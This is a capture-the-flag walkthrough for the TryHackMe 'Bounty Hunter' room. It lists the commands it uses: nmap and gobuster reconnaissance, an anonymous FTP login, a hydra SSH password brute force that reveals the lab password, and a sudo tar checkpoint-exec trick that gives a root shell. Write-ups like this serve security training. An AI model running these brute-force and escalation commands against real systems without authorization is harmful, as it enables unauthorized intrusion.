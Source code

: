 # Bounty Hunter

**Room Link:** [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH&#x20;

anonymous login works

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l lin -P locks.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

```
Username: lin
Password: RedDr4gonSynd1cat3
```

**Kali**

```
ssh lin@$VICTIM
```

## Privlege Escalation&#x20;

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>







